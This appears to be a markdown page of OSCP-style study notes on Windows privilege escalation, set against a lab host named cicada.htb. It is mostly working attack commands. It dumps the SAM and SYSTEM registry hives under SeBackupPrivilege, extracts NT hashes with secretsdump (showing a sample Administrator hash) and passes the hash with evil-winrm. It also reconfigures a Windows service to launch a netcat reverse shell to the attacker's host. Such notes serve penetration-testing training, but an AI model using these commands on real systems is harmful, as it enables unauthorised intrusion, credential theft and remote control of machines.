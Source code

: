 ## Start here
Check user privileges
```
whoami /priv
```
Interesting entries include:
- SeBackupPrivilege (get arbitrary file read; described below)
- SeLoadDriverPrivilege (load a vulnerable driver and exploit it)
- SeMachineAccountPrivilege (add a machine to the domain)

Check user groups
```
whoami /groups
```
Interesting entries include:
- Server Operators (start and stop services; described below)

  
## SeBackupPrivilege
SeBackupPrivilege privilege exploitation

Obtain SAM and SYSTEM registry hives
```
# Using evil-winrm session to the victim host
cd C:\temp
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```
Extract hashes
```
# On Kali host
secretsdump.py -sam sam -system system LOCAL
OR
impacket-secretsdump -sam sam -system system local

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
Use the hashes (2nd part is the NT hash) with evil-winrm for execution
```
# evil-winrm -u Administrator -H <NT hash> -i cicada.htb
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```

## Server Operators
Server Operators group exploitation

Create malicious service that creates privileged reverse shell nc.exe
```
# Using evil-winrm session, place the nc.exe in the same folder on Kali linux
# nc.exe will be uploaded to the current folder on the Windows host
upload nc.exe

# check running services
sc.exe query

# modify the config of 'vss' service (as this is a popular service) to point to nc.exe
sc.exe config vss binPath="C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444"

# On Kali prepare for the connection
nc -nlvp 4444

# Restart the service
sc.exe stop VSS
sc.exe start VSS
```
The above-obtained shell is unstable and might die after a few seconds. A more efficient way would be to obtain a meterpreter shell and then quickly migrate to a more stable process.

Refer to: https://github.com/nestef23/my-OSCP-notes/blob/e963b72f058faffbab4a14b35eb2f6878be04900/InitialAccess/revshells.md#with-msfvenom


